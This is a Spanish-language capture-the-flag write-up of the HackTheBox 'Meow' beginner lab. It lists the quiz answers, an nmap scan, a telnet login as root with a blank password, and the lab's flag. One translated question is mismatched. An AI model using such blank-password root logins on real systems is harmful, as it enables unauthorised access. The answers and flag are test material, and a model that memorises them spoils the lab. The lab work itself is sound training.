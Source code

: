 ```yaml
---
title: HTB - Meow (Starting Point)
published: true
categories: [Linux]
tags: [eJPT, eWPT, eCPPTv2, OSCP, Fácil]
---
```


<img src="/assets/HTB/Meow/meow.png">

¡Hola!
Vamos a resolver de la máquina `Meow` de dificultad "Fácil" de la plataforma [HackTheBox](https://hackthebox.com/).

Técnicas Vistas: 

- **Recopilación de información**
- **Uso de telnet y nmap**

### Task 1

>**What does the acronym VM stand for?** ___(**¿Qué significan las siglas VM?**)___
>
>> ***Virtual Machine***



### Task 2

>**What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.** ___(**¿Qué herramienta utilizamos para interactuar con el sistema operativo con el fin de emitir comandos a través de la línea de comandos, como el de iniciar nuestra conexión VPN? También se conoce como consola o shell**)___
>
>> ***Terminal***


### Task 3

>**What service do we use to form our VPN connection into HTB labs?** ___(**¿Qué quiere decir PII?**)___
>
>> ***openvpn***

### Task 4

>**What is the abbreviated name for a 'tunnel interface' in the output of your VPN boot-up sequence output?**
>
>> ***tun***

### Task 5 

>**What tool do we use to test our connection to the target with an ICMP echo request?**
>
>> ***Ping***

### Task 6 

>**What is the name of the most common tool for finding open ports on a target?**
>
>> ***nmap***


### Task 7 

>**What service do we identify on port 23/tcp during our scans?**
>
>> ***telnet***

### Usando Nmap

> **Usaremos la herramienta ```nmap``` para descubrir el servicio corriendo en el puerto 23**
```bash
nmap -sV -vvv 10.129.41.182
Host is up, received conn-refused (0.050s latency).
Scanned at 2023-01-24 20:03:49 CET for 12s
Not shown: 999 closed tcp ports (conn-refused)

PORT   STATE SERVICE REASON  VERSION
23/tcp open  telnet  syn-ack Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Task 8

>**What username is able to log into the target over telnet with a blank password?**
>
>> ***root***

### Usando telnet

> **Usamos el comando ```telnet```para conectarnos mediante tcp hacia el objetivo y usar las creedenciales consiguiendo acceso directo a la máquina.**

```bash
telnet 10.129.41.182   
Trying 10.129.41.182...
Connected to 10.129.41.182.
Escape character is [^].

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login:
```

### Submit Flag

>**Submit root flag**
>
>> ***b40abdfe23665f766f9c61ecba8a4c19***

### Dentro de Meow.
**Una vez usadas las creedenciales ```root```para entrar en la máquina vía ```telnet``` usaremos la shell para hayar la submit flag.**

```bash
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~# 
```

Hemos completado la máquina **Meow** de HackTheBox!! Happy Hacking!!

<img src="/assets/HTB/Meow/pwned.png">
